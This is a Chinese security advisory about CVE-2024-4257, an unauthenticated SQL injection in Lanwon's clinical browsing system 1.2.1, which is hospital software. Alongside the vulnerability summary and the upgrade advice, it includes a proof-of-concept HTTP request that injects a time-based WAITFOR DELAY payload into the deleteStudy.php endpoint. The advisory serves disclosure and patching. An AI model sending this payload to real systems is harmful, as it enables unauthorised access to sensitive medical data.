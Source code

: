 #  漏洞预警 | 蓝网科技临床浏览系统 SQL注入漏洞   
浅安  浅安安全   2024-05-13 07:00  
  
**0x00 漏洞编号**  
- # CVE-2024-4257  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
蓝网科技临床浏览系统是一个专门用于医疗行业的软件系统，主要用于医生、护士和其他医疗专业人员在临床工作中进行信息浏览、查询和管理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SVfR8wYZUibN5icwIjcUwJ5yicM2vjV8cDeE2NR5cWJkzRJxibcwT6Mw7GEcKnfO7saljmxUfnZTlQYAA/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞详情**  
###   
###   
  
**CVE-2024-4257**  
  
**漏洞类型：**  
SQL注入  
  
  
**影响：**  
  
获取敏感信息  
  
**简述：**  
蓝网科技临床浏览系统存在SQL注入漏洞，未授权的攻击者可以利用该漏洞获取数据库敏感信息。  
###   
  
**0x04 影响版本**  
- 蓝网科技临床浏览系统 1.2.1  
  
**0x05****POC**  
```
GET /xds/deleteStudy.php?documentUniqueId=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://www.lanwon.com/  
  
  
  
